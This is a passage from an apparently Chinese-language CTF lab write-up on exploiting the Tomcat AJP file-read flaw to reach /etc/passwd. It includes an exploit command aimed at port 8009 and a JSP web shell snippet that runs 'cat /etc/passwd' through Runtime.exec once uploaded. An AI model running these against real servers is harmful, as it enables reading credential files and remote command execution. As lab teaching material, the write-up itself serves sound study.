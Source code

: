 

![image-20200306132859361](README.assets/image-20200306132859361.png)

### 第二个flag（/etc/passwd）

使用直接尝试读取`/etc/passwd`，并不会成功。

```
python3 2020-10487.py 10.0.0.39 -p 8009 -f /etc/passwd
```



![image-20200306132615021](README.assets/image-20200306132615021.png)

![image-20200306132634604](README.assets/image-20200306132634604.png)

原因是Java的安全机制造成的，通过web方法访问会被限制在webapp目录中，无法路径穿越。需要使用其他方法。

该漏洞可以导致读取文件和远程代码执行。远程代码执行需要文件上传功能配合。该webapp正好提供了上传功能。

编写JSP脚本

```jsp
<%@page import="java.io.*"%>
<%
	String cmd = "cat /etc/passwd";
	Process process = Runtime.getRuntime().exec(cmd);
	DataInputStream in = new DataInputStream(process.getInputStream());
	for (;;) {
		String line = in.readLine();
		if (null == line) {
			break;
		} else {
			out.print(line);
		}
	}
%>
```
